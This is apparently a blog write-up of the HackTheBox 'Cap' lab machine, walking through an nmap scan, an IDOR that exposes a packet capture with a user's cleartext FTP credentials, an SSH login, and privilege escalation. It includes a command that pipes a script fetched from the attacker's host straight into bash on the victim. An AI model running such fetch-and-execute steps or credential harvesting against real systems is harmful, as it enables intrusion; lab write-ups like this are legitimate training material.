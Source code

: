 ```yaml
---
title: Cap
date: 2022-08-13 14:27
categories: [htb]
tags: [Linux,IDOR,Packet Capture,SUID Exploitation]
--- 
```


![capimg](/assets/img/capimg.png)

Cap is a pretty straight-forward easy level machine on HacktheBox that I had alot of fun completing. We start by finding an IDOR vulnerability on the web server which lets us grab a .pcap file from the past. Opening it with wireshark shows us credentials for a user on the machine, and from there we get to root through an SUID exploit.

### Enumeration

Starting with NMAP, we see that FTP, SSH, and HTTP services are running on ports 21, 22, and 80.

```bash
sudo nmap -sC 10.10.10.245
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 18:53 EDT
Nmap scan report for 10.10.10.245
Host is up (0.052s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http
|_http-title: Security Dashboard
```

Before we look at the website, it's always a good idea to check if anonymous login is enabled on the FTP server. 

```bash
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```

Turns out it's disabled-let's just check out the website,seems to be a security monitoring dashboard which contains information on the host's internal network. Potential username on the right side "Nathan".

![site](/assets/img/cap/site.png)

We can see the output of ifconfig

![ifconfig](/assets/img/cap/ifconfig.png)

netstat

![netstat](/assets/img/cap/netstat.png)

and most interestingly, an endpoint on http://10.10.10.245/data/1 that contains a (blank) pcap file from the past 5 seconds.

![data](/assets/img/cap/data.png)
![pcap](/assets/img/cap/pcap.png)

### Using the IDOR to Get Nathan's Credentials

What happens however if we change the url to http://10.10.10.245/data/0 ?

![data](/assets/img/cap/idor.png)
![data](/assets/img/cap/pcap2.png)

we get a packet capture from the past with an insecure direct object reference (IDOR).

![creds](/assets/img/cap/creds.png)

In this case, we can see an in-the-clear successful authentication attempt from Nathan to the FTP server, showing us his credentials. Using these credentials, we can login to the machine through SSH and grab the user flag.

![creds](/assets/img/cap/user.png)

### Privilege Escalation

From here we can get [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) on the box, an awesome script that looks for tons of priv-esc vectors. We start by serving linpeas.sh from our local machine on a simple python http server.

![web](/assets/img/cap/web.png)
![web](/assets/img/cap/mysite.png)

Then from the victim's machine we pull the script from our website and execute it automatically with:

```bash
curl 10.10.14.17:8000/linpeas.sh | bash
```

We get a hit on our server from the victim's IP address, and the script executes on the victim's machine.

![hit](/assets/img/cap/hit.png)

Linpeas found something juicy:
![suid](/assets/img/cap/suid.png)
Nathan has the SUID bit on /usr/bin/python3.8, which can be used to get a root shell on the box with a trick from [hackingarticles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/).
![root](/assets/img/cap/root.png)